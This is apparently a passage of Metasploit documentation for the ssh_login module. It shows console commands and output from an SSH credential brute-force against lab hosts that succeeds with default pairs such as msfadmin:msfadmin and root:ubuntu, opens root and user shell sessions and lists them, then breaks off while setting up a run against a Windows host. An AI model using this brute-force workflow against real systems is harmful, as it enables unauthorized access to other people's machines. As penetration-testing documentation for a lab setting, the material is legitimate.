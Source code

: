   ````[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '```
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 5 opened (192.168.2.117:44415 -> 192.168.2.46:22) at 2017-02-22 20:26:13 -0500
[*] Command shell session 6 opened (192.168.2.117:36107 -> 192.168.2.35:22) at 2017-02-22 20:26:13 -0500
[+] SSH - Success: 'root:ubuntu' 'uid=0(root) gid=0(root) groups=0(root) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 7 opened (192.168.2.117:32829 -> 192.168.2.156:22) at 2017-02-22 20:26:35 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 8 opened (192.168.2.117:42205 -> 192.168.2.156:22) at 2017-02-22 20:26:42 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 9 opened (192.168.2.117:37027 -> 192.168.2.137:22) at 2017-02-22 20:26:44 -0500
[*] Scanned 3 of 4 hosts (75% complete)
[*] Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type          Information                              Connection
  --  ----          -----------                              ----------
  5   shell /linux  SSH msfadmin:msfadmin (192.168.2.46:22)  192.168.2.117:44415 -> 192.168.2.46:22 (192.168.2.46)
  6   shell /linux  SSH msfadmin:msfadmin (192.168.2.35:22)  192.168.2.117:36107 -> 192.168.2.35:22 (192.168.2.35)
  7   shell /linux  SSH root:ubuntu (192.168.2.156:22)       192.168.2.117:32829 -> 192.168.2.156:22 (192.168.2.156)
  8   shell /linux  SSH ubuntu:ubuntu (192.168.2.156:22)     192.168.2.117:42205 -> 192.168.2.156:22 (192.168.2.156)
  9   shell /linux  SSH ubuntu:ubuntu (192.168.2.137:22)     192.168.2.117:37027 -> 192.168.2.137:22 (192.168.2.137)
```

  Example run against:
  * Windows 10 w/ Linux Subsystem

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username winuser
username => winuser
  ````